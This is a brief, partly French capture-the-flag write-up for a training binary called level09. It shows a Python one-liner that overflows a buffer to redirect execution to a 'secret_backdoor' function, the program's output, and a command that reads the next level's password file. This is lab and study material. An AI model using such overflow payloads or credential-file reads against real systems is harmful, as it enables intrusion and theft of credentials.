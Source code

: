 find secret_backdoor address 

(python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)') | ./level09

\x8c\x48 sont les deux derniers octets

```sh
$ (python -c 'print("A" * 40 + "\xca" + "\x8c\x48" * 146)'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
```

j'ai un résultat différent dans ma vm chez moi, très bizarre